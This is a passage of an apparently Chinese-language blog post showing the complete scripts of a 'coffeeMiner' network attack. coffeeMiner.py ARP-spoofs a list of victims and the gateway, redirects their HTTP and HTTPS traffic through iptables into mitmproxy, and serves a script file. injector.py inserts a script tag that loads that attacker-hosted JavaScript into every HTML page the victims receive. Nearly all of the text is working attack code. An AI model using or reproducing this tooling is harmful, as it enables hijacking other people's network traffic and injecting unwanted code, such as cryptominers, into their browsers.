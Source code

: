 之后，就可利用mitmproxy来执行注入程序 injector.py：
>mitmdump -s 'injector.py http://httpserverIP:8000/script.js'

## 最终脚本

{% codeblock coffeeMiner.py lang:python %}
import os
import sys
#get gateway_ip (router)
gateway = sys.argv[1]
print("gateway: " + gateway)
#get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
#configure routing (IPTABLES)
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080")
#run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
#start the http server for serving the script.js, in a new console
os.system("xterm -hold -e 'python3 httpServer.py' &")
#start the mitmproxy
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
{% endcodeblock %}

{% codeblock injector.py lang:python %}
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
    def __init__(self, path):
        self.path = path
    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                print(flow.response.headers["content-type"])
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")
def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
    return Injector(args.path)
{% endcodeblock %}
